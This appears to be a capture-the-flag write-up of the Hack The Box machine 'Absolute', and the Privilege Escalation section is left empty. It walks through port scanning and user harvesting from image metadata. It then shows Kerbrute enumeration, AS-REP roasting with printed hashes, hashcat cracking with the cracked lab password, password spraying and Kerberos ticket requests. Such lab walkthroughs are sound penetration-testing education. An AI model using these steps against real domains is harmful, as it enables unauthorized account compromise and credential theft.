

# Absolute (Insane)

<figure><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Absolute
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-05 22:10:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-06-09T08:14:24
| Not valid after:  2023-06-09T08:14:24
| MD5:   bfc067aca80d4a43c76770e3daac4089
|_SHA-1: d2020dbd811c7e36ad9e120be6eba1108695f3f7
|_ssl-date: 2023-05-05T22:11:48+00:00; +7h00m00s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-05-05T22:11:47+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-06-09T08:14:24
| Not valid after:  2023-06-09T08:14:24
| MD5:   bfc067aca80d4a43c76770e3daac4089
|_SHA-1: d2020dbd811c7e36ad9e120be6eba1108695f3f7
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-06-09T08:14:24
| Not valid after:  2023-06-09T08:14:24
| MD5:   bfc067aca80d4a43c76770e3daac4089
|_SHA-1: d2020dbd811c7e36ad9e120be6eba1108695f3f7
|_ssl-date: 2023-05-05T22:11:48+00:00; +7h00m00s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-05-05T22:11:47+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Issuer: commonName=absolute-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-06-09T08:14:24
| Not valid after:  2023-06-09T08:14:24
| MD5:   bfc067aca80d4a43c76770e3daac4089
|_SHA-1: d2020dbd811c7e36ad9e120be6eba1108695f3f7
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-05T22:11:41
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
```

Enumerated UDP ports:

```
```

Notes:

* Added absolute.htb to /etc/hosts

## Enumeration

### Port 80 - HTTP (IIS)

#### Visual Inspection

<figure><figcaption></figcaption></figure>

* Analyzed source code

#### Directory Bruteforce

```
dirsearch -u http://absolute.htb

Target: http://absolute.htb/

[21:43:23] Starting: 
[21:43:24] 301 -  146B  - /js  ->  http://absolute.htb/js/
[21:43:24] 403 -  312B  - /%2e%2e//google.com
[21:43:30] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:43:45] 301 -  147B  - /css  ->  http://absolute.htb/css/
[21:43:48] 301 -  149B  - /fonts  ->  http://absolute.htb/fonts/
[21:43:50] 403 -    1KB - /images/
[21:43:50] 301 -  150B  - /images  ->  http://absolute.htb/images/
[21:43:50] 200 -    3KB - /index.html
[21:43:51] 403 -    1KB - /js/
```

* /images is forbidden
* However, it can be enumerated via source code

<figure><figcaption></figcaption></figure>

Obtaining image files:

```
wget http://absolute.htb/images/hero_1.jpg
wget http://absolute.htb/images/hero_2.jpg
wget http://absolute.htb/images/hero_3.jpg
wget http://absolute.htb/images/hero_4.jpg
wget http://absolute.htb/images/hero_5.jpg
wget http://absolute.htb/images/hero_6.jpg
```

Although they don't appear to be very fancy, let's check out the images' metadata with exiftool.

#### Exiftool

```
exiftool hero_1.jpg
```

<figure><figcaption></figcaption></figure>

Is this a possible user? Let's check the rest of the images.

<figure><figcaption></figcaption></figure>

Confirmed, there are different authors for each image. Let's add these to a users.txt file and try to figure out the AD naming convention!

Possible users:

```
James Roberts
Michael Chaffrey
Donald Klay
Sarah Osvald
Jeffer Robinson
Nicole Smith
```

From experience, naming conventions follow a particular pattern, so I put them in a users.txt file as such:

users.txt:

```
James Roberts
Michael Chaffrey
Donald Klay
Sarah Osvald
Jeffer Robinson
Nicole Smith

j.roberts
m.chaffrey
d.klay
s.osvald
j.robinson
n.smith

james.roberts
michael.chaffrey
donald.klay
sarah.osvald
jeffer.robinson
nicole.smith
```

Shoutout to my friend, Opcode, for the reference! We can automate this task actually:



<pre><code><strong>git clone https://github.com/urbanadventurer/username-anarchy.git
</strong><strong>cd username-anarchy
</strong><strong>./username-anarchy -i ~/users.txt > ~/user_formats.txt
</strong></code></pre>

#### Kerbrute User Enumeration

I then followed this users list up with `Kerbrute`:

```
./kerbrute_linux_arm64 userenum --dc 10.129.228.64 -d absolute.htb users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 05/06/23 - Ronnie Flathers @ropnop

2023/05/06 10:42:11 >  Using KDC(s):
2023/05/06 10:42:11 >  	10.129.228.64:88

2023/05/06 10:42:11 >  [+] VALID USERNAME:	 s.osvald@absolute.htb
2023/05/06 10:42:11 >  [+] VALID USERNAME:	 m.chaffrey@absolute.htb
2023/05/06 10:42:11 >  [+] VALID USERNAME:	 j.roberts@absolute.htb
2023/05/06 10:42:11 >  [+] VALID USERNAME:	 j.robinson@absolute.htb
2023/05/06 10:42:11 >  [+] VALID USERNAME:	 n.smith@absolute.htb
2023/05/06 10:42:11 >  [+] d.klay has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$d.klay@ABSOLUTE.HTB:2a034fd77692e217419006b3c74eb5d5$ad27aa64e3a1a7469e7e2fa5e36963a78dcb639af2ecab54db438232b39bde56b201e534290841382da8c1a503c0aa953082aa5509d3d7ee41314a959b0a71953d731de2c49c54cee77dcfb94a361e05a80918913c11a0a6871bc93895e581df4264f63f3a3ec40bb28728474c022322679e9d3076d32354b737b65d2b3a588b61a7020c61c1d0a9375c3d7c26c6371078ec968072caa99ec3ef9bddfa551103cc30e7e0754fecdaadb348a4f451b55066d2fc56e1d8fbf9b3692382443706c8fbb8c709eda1c1ed05afeeb12dafb71c3d57e3f883a1af6bc851f8014dd54fa14e4707a5ebe007a11d578746fa82f8e5ed0cf099e325ac2f3263f2b156e23d47
2023/05/06 10:42:11 >  [+] VALID USERNAME:	 d.klay@absolute.htb
2023/05/06 10:42:11 >  Done! Tested 18 usernames (6 valid) in 0.214 seconds
```

We see that <mark style="color:yellow;">d.klay was vulnerable to AS-REP Roasting</mark>! We know this because they have Kerberos pre-authentication disabled. Also, we validated the other usernames; confirming the naming convention!

<mark style="color:yellow;">firstname.lastname</mark>

#### CrackMapExec

```
crackmapexec smb 10.129.228.64 -u users.txt -p '' --continue-on-success
```

<figure><figcaption></figcaption></figure>

#### GetNPUsers.py AS-REPRoast

We can also AS-REPRoast with Impacket:

<pre><code>GetNPUsers.py -no-pass -usersfile users.txt absolute.htb/

<strong>Impacket v0.10.1.dev1+20230505.184149.c309363e - Copyright 2022 Fortra
</strong>
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:1d58075187e21740632972a71b63366a$59fb8472a716222f8b6746a7b761a9444f91c439f171516c5c5a778c92d219059ddd7329ce822f25d2b4232fe29bc740efea55f3f01802769052b4bedfae21556026621a8170be6b79c4a5033b87eab5c077903dd5ce1e61afd860270587068824692bacc0deb1a9187df98430cb916c155965d1a2e69673a33a4770c479e87963e0ecb25b3df0d1c9f64f1e8ca9b7fd1f3433d39c071d3aec5b866aa6ba58140e9eea626e7d2d4b9c06397b9402e53b002cd59a16d6013d8717f6c81e860e94651fbbbd9312b0db491df5bbf82b917ab7057e6519491b10b29a0dd275f3ff79e1c120dd5a22e21d8b2fea60
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
</code></pre>

#### d.klay AS-REP Hash

asrep.txt:

```
$krb5asrep$23$d.klay@ABSOLUTE.HTB:1d58075187e21740632972a71b63366a$59fb8472a716222f8b6746a7b761a9444f91c439f171516c5c5a778c92d219059ddd7329ce822f25d2b4232fe29bc740efea55f3f01802769052b4bedfae21556026621a8170be6b79c4a5033b87eab5c077903dd5ce1e61afd860270587068824692bacc0deb1a9187df98430cb916c155965d1a2e69673a33a4770c479e87963e0ecb25b3df0d1c9f64f1e8ca9b7fd1f3433d39c071d3aec5b866aa6ba58140e9eea626e7d2d4b9c06397b9402e53b002cd59a16d6013d8717f6c81e860e94651fbbbd9312b0db491df5bbf82b917ab7057e6519491b10b29a0dd275f3ff79e1c120dd5a22e21d8b2fea60
```

<mark style="color:yellow;">We can now take this hash offline and crack it to attempt to elevate our access.</mark>

#### Hashcat

```
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt
d.klay:Darkmoonsky248girl
```

Password cracked!

#### Subdomain Enumeration

```
ffuf -u http://absolute.htb -H "Host: FUZZ.absolute.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 2909
```

* No results

### Port 445 - SMB

#### Enum4Linux-ng

```
enum4linux-ng.py absolute.htb -A -C -S -U -P -O -L -I
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... absolute.htb
[*] Username ......... ''
[*] Random Username .. 'ejyurzyt'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on absolute.htb    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ====================================================
|    Domain Information via LDAP for absolute.htb    |
 ====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: absolute.htb

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for absolute.htb    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on absolute.htb    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 ===========================================================
|    Domain Information via SMB session for absolute.htb    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC
NetBIOS domain name: absolute
DNS domain: absolute.htb
FQDN: dc.absolute.htb
Derived membership: domain member
Derived domain: absolute

 =========================================
|    RPC Session Check on absolute.htb    |
 =========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ===================================================
|    Domain Information via RPC for absolute.htb    |
 ===================================================
[+] Domain: absolute
[+] Domain SID: S-1-5-21-4078382237-1492182817-2568127209
[+] Membership: domain member

 ===============================================
|    OS Information via RPC for absolute.htb    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

 =====================================
|    Users via RPC on absolute.htb    |
 =====================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ======================================
|    Groups via RPC on absolute.htb    |
 ======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Services via RPC on absolute.htb    |
 ========================================
[-] Could not get RPC services via 'net rpc service list': STATUS_ACCESS_DENIED

 ======================================
|    Shares via RPC on absolute.htb    |
 ======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 =========================================
|    Policies via RPC for absolute.htb    |
 =========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 =========================================
|    Printers via RPC for absolute.htb    |
 =========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 13.40 seconds

```

* Only result was the SMB NULL auth was possible

#### CrackMapExec

```
crackmapexec smb absolute.htb -u '' -p '' --shares

SMB         absolute.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         absolute.htb    445    DC               [+] absolute.htb\: 
SMB         absolute.htb    445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Boom, we see that we have NULL access to this SMB share.

#### smbclient

```
smbclient -L //absolute.htb/ -U '' -N

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to absolute.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

smbclient \\\\absolute.htb\\public -U 10.129.228.64 -N
session setup failed: NT_STATUS_LOGON_FAILURE
```

Unfortunately, I was unable to get anything with this for some reason. Paranoid that I was messing up, I confirmed this finding with a few more tools.

* We are able to discover that we are attacking a Windows 10 server

#### smbmap

```
smbmap -H absolute.htb -d absolute.htb -L
```

Still nothing.

### RPC

#### rpcclient

```
rpcclient -U '' -N absolute.htb
```

I was unable to obtain any information from RPC without creds.

### LDAP

#### ldapsearch

```
ldapsearch -LLL -x -H ldap://absolute.htb -b '' -s base '(objectclass=\*)'
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=absolute,DC=htb
ldapServiceName: absolute.htb:dc$@ABSOLUTE.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD

--- cut --- 

subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=absolute,DC=htb
serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configurat
 ion,DC=absolute,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=absolute,DC=htb
namingContexts: DC=absolute,DC=htb
namingContexts: CN=Configuration,DC=absolute,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=absolute,DC=htb
namingContexts: DC=DomainDnsZones,DC=absolute,DC=htb
namingContexts: DC=ForestDnsZones,DC=absolute,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 168078
dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=absolute,DC=htb
dnsHostName: dc.absolute.htb
defaultNamingContext: DC=absolute,DC=htb
currentTime: 20230505224841.0Z
configurationNamingContext: CN=Configuration,DC=absolute,DC=htb
```

## Exploitation

### AS-REP Roasting

This is the exploit that I was able to use to target the d.klay user because they have Kerberos pre-authentication disabled. This allowed me to obtain the user's hash and crack it offline, obtaining a password.

Creds:

```
d.klay:Darkmoonsky248girl
```

However, upon trying to spray these credentials across protocols, I see that we get a particular error:

```
smbclient.py 'absolute.htb'/'d.klay':'Darkmoonsky248girl'@'10.129.228.64'
Impacket v0.10.1.dev1+20230505.184149.c309363e - Copyright 2022 Fortra

[-] SMB SessionError: STATUS_ACCOUNT_RESTRICTION(Indicates a referenced user name and authentication information are valid, but some user account restriction has prevented successful authentication (such as time-of-day restrictions).)
```

```
STATUS_ACCOUNT_RESTRICTION
```

<mark style="color:yellow;">This error means that NTLM authentication has been disabled on this machine.</mark>

We can also see this in CME:

```
SMB         10.129.228.64   445    DC               [-] absolute.htb\j.roberts:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.228.64   445    DC               [-] absolute.htb\m.chaffrey:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.228.64   445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.228.64   445    DC               [-] absolute.htb\s.osvald:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.228.64   445    DC               [-] absolute.htb\j.robinson:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.228.64   445    DC               [-] absolute.htb\n.smith:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION
```

<mark style="color:yellow;">How else can we authenticate?</mark>

We have Kerberos open. Remembering that Kerberos is an authentication protocol, this seems like the most realistic approach to start doing some research.



### PassTheKey (GetTGT.py)

```
getTGT.py 'absolute.htb/d.klay:Darkmoonsky248girl' -dc-ip absolute.htb 
Impacket v0.10.1.dev1+20230505.184149.c309363e - Copyright 2022 Fortra

[*] Saving ticket in d.klay.ccache
                                                                                                         
export KRB5CCNAME=/home/user/Desktop/HTB/Absolute/d.klay.ccache
```

Now that we have this ticket, we can use it to authenticate to different protocols via Kerberos.

I know just the tool for this, CME!

### CrackMapExec Kerberos Authentication

Start CME docker:

```
sudo docker build -t cme .
sudo docker run -it --entrypoint=/bin/bash --rm --name cmexec cme:latest
```

Transfer ticket to CME Docker container:

Open a new terminal window and run.

```
sudo docker cp d.klay.ccache cmexec:/usr/src/crackmapexec/d.klay.ccache
```

Export ticket variable:

```
export KRB5CCNAME=/usr/src/crackmapexec/d.klay.ccache
```

Add absolute.htb to /etc/hosts on Docker container:

```
echo "10.129.228.64 absolute.htb" >> /etc/hosts
```

## Privilege Escalation

### Local enumeration

### PrivEsc vector

